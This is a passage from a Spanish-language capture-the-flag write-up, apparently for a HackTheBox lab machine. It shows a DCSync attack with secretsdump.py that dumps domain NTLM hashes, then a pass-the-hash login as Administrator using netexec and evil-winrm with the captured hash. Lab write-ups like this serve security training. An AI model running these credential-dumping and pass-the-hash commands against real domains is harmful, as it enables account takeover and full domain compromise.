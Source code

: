 Se realizó el ataque de **DCSync Attack** y obtuvimos todos los hashes NTLM, incluídos los del usuario Administrator.

```bash
secretsdump.py -just-dc-ntlm administrator.htb/ethan@10.10.11.42
```

<figure><img src="../../../../../.gitbook/assets/2546_vmware_00at5y545v.png" alt=""><figcaption></figcaption></figure>

Verficaremos que el hash NTLM es válido y procederemos a conectarnos a través de **evil-winrm** con el usuario **administrator@administrator.htb** y verificar la flag de **root.txt**.

```bash
netexec winrm 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

evil-winrm -i 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

<figure><img src="../../../../../.gitbook/assets/2547_vmware_rtunSQdrZT.png" alt=""><figcaption></figcaption></figure>
